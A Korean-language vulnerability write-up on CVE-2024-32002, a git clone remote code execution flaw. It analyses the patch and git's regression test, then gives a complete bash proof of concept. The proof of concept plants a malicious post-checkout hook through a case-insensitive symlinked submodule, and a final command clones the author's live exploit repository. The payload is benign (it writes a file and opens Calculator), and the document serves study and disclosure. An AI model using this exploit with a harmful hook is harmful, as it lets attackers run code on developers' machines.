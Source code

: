 # git clone을 통한 Remote Code Execution 공격 (CVE-2024-32002)

<strong>기여자</strong>
<br/>

-   [이정우@Roronoawjd](https://github.com/Roronoawjd)

## 배경 설명
해당 취약점은 대소문자를 구분하지 않는 Windows, MacOS와 같은 파일 시스템에서 submodule을 포함하는 git 저장소를 clone할 때 발생하는 `RCE(Remote Code Execution)` 취약점이다. RCE는 원격 코드 실행 취약점으로 공격자가 대상 시스템에서 원하는 명령어를 실행할 수 있는 아주 치명적인 취약점이다.
`A/modules/x` 과 `a/modules/x`은 동일한 경로로 취급된다. 이러한 특징과 심볼릭 링크를 활용하여 취약점을 유발한다.

## 취약점 정보
- 해당 POC는 Windows와 MAC 시스템에서만 동작합니다.
- `git config --global core.symlinks false`로 설정된 경우에는 공격이 작동하지 않습니다.


## 취약점 분석
[취약점 패치 확인](https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d)

### `builtin/submodule--helper.c`
dir_contains_only_dotgit 함수: 디렉터리에 .git 파일만 포함되어 있는지 다른 디렉터리도 포함되어 있는지 확인하고 다른 파일이나 디렉터리가 있으면 오류를 반환한다.
clone_submodule 함수: clone하기 전에 하위 모듈 디렉토리가 존재하고 비어있는지 확인한다.

### `t/t7406-submodule-update.sh`

### 1. Global 구성
```sh
test_config_global protocol.file.allow always &&
test_config_global core.symlinks true &&
tell_tale_path="$PWD/tell.tale" &&
```
해당 스크립트는 Git 구성 옵션을 설정한다. protocol.file.allow always를 통해 Git의 파일 프로토콜을 활성화 한다.

core.symlinks true를 설정하여 심볼릭 링크 사용을 허용한다.

tell_tale_path는 RCE가 제대로 잘 작동됬는지 확인하는데 사용한다.

### 2. hook 설정
```sh
git init hook &&
(
  cd hook &&
  mkdir -p y/hooks &&
  write_script y/hooks/post-checkout <<-EOF &&
  echo HOOK-RUN >&2
  echo hook-run >"$tell_tale_path"
  EOF
  git add y/hooks/post-checkout &&
  test_tick &&
  git commit -m post-checkout
) &&
```
- hook 레퍼지토리를 초기화 한다.
- post-checkout이라는 hook을 생성
- hook 스크립트를 저장소에 커밋

### 3. 메인 저장소 설정
```sh
hook_repo_path="$(pwd)/hook" &&
git init captain &&
(
  cd captain &&
  git submodule add --name x/y "$hook_repo_path" A/modules/x &&
  test_tick &&
  git commit -m add-submodule &&
  printf .git >dotgit.txt &&
  git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
  printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
  git update-index --index-info <index.info &&
  test_tick &&
  git commit -m add-symlink
) &&
```
- hook의 경로 저장
- captin이라는 다른 레퍼지토리 초기화
- hook 저장소를 `A/modules/x`에 하위모듈로 추가한 후 커밋
- .git을 가리키는 a라는 심볼릭링크 생성

### 4. 테스트
```sh
test_path_is_missing "$tell_tale_path" &&
test_must_fail git clone --recursive captain hooked 2>err &&
grep "directory not empty" err &&
test_path_is_missing "$tell_tale_path"
```
- RCE가 작동됐는지 확인

### POC 제작
```sh
#!/bin/bash

# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 


# Define the tell-tale path
tell_tale_path="$PWD/tell.tale"

# Initialize the hook repository
git init hook
cd hook
mkdir -p y/hooks

# Write the malicious code to a hook
cat > y/hooks/post-checkout <<EOF
#!/bin/bash
echo "I'm roronoa" > /tmp/pwnd
calc.exe
open -a Calculator.app
EOF

# Make the hook executable: important
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"

cd ..

# Define the hook repository path
hook_repo_path="$(pwd)/hook"

# Initialize the captain repository
git init captain
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# Create a symlink
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
cd ..

git clone --recursive captain hooked
```

git은 특정 이벤트가 생겼을 때 자동으로 스크립트를 실행할 수 있도록하는 hook이라는 것이 존재한다. 위치는 .git/hooks 디렉토리에 존재한다.
post-checkout은 checkout한 후에 실행되는 스크립트이다.

![image](https://github.com/Roronoawjd/git_rce/assets/105417063/95806f9f-1f69-46df-a71e-ac6bf97b318b)

순서는 다음과 같다.
1. clone 저장소 git_rce에 `.git`을 가리키는 심볼릭 링크 `a`가 생성
2. git clone할 때 하위 모듈의 경로가 `A/modules/x`가 아니라 `a/modules/x`로 인식됨
3. `a`는 `.git`을 가리키기 때문에 `.git`에 `/modules/x`가 생기고 `y/hooks/post-checkout`이 생성됨
4. checkout 성공 후 자동 후 `git_rce/.git/modules/x/y/hooks/post-checkout`가 실행되어 RCE가 발생함

## POC(Proof of Concept)
⚠️경고: 해당 취약점을 악의적으로 사용하지 마시오!
<pre><code>git clone --recursive https://github.com/Roronoawjd/git_rce.git</code></pre>
참고: Windows에서는 관리자 권한으로 cmd나 bash쉘을 열어서 실행해야 합니다.

